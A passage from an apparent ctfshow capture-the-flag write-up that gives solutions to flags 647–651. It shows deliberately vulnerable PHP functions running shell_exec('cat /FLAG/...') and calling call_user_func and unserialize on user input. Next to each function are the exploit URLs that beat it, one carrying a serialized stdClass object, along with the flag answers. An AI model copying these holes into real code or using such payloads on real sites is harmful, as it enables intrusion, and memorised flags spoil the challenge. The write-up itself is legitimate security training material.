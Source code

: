 /users.php?action=evilClass&m[]=1&key=flag_647=ctfshow{e6ad8304cdb562971999b476d8922219}

![image-20211104174047294](images/image-20211104174047294.png)

## flag_650

ctfshow{5eae22d9973a16a0d37c9854504b3029}

```php
function evilFunction($m,$k){
	$key = 'ffffffff';
	$content = call_user_func($m);
	if(stripos($content, $key)!==FALSE && $k==shell_exec('cat /FLAG/FLAG649')){
		echo shell_exec('cat /FLAG/FLAG650');
	}else{
		echo 'you are not ffffffff?';
	}
}
```

/users.php?action=evilFunction&m=get_defined_constants&key=flag_649=ctfshow{9ad80fcc305b58afbb3a0c2097ac40ef}

![image-20211104174138811](images/image-20211104174138811.png)

## flag_651

ctfshow{a4c64b86d754b3b132a138e3e0adcaa6}

```php
function evilArray($m,$k){
	$arrays=unserialize($m);
	if($arrays!==false){
		if(array_key_exists('username', $arrays) && in_array('ctfshow', get_object_vars($arrays)) &&  $k==shell_exec('cat /FLAG/FLAG650')){
			echo shell_exec('cat /FLAG/FLAG651');
		}else{
			echo 'array?';
		}
	}
}
```

/users.php?action=evilArray&m=O:8:"stdClass":1:{s:8:"username";s:7:"ctfshow";}&key=flag_650=ctfshow{5eae22d9973a16a0d37c9854504b3029}

![image-20211104174218813](images/image-20211104174218813.png)
